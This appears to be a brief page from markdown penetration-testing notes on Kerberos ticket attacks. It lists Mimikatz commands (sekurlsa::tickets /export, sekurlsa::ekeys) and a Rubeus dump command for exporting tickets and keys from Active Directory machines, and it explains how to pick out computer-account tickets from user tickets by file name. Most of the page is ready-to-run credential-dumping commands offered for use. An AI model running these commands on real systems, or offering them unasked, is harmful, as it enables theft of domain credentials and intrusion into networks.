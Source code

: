 ```yaml
---
hidden: true
---
```


# Ticket/Hash Attacks

## Exporting Tickets

### **Mimikatz**

```powershell
sekurlsa::tickets /export
or if don't work try
sekurlsa::ekeys
```

The tickets ending with a <mark style="color:green;">**$**</mark> symbol represent the computer account, which requires a ticket to communicate with the **AD**. User tickets, on the other hand, include the user's name, followed by an <mark style="color:green;">**@**</mark> symbol that separates the service name and the domain. For example: <mark style="color:green;">**\[randomvalue]-username@service-domain.local.kirbi**</mark>.

### **Rubeus**

```powershell
Rubeus.exe dump /nowrap
```
